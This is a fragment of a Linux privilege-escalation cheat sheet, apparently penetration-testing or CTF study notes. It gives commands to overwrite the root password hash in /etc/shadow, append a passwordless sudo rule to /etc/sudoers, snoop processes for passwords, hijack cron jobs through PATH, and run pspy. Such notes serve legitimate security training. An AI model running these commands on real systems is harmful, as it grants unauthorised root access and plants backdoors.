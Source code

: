 **Write /etc/shadow**

```
mkpasswd -m sha-512 newpasswordhere
```

Substitute root password

**Write /etc/sudoers**

```
echo '<user> ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
sudo -l
sudo su
```

### Services

```
watch -n 1 "ps -aux | grep pass"
```

### Cron Jobs

Always check $PATH Variable in the Cron Job! Check if you have write privileges on a folder.

```
cat /etc/crontab
crontab -l
sudo crontab -l
grep "CRON" /var/log/syslog
```

Check other files! /etc/cron.d etc...

1. You can try to edit the file
2. If the full path of the file is not being used you can try to create another one earlier in $PATH where you have write privileges

Additionally:
```
watch -n 1 "ps -aux"
watch -n 1 "ps -aux | grep pass"
```

#### Systemctl
```
systemctl list-timers

systemctl status <service>
```

#### PSPY

```
chmod +x pspy64
./pspy64
```
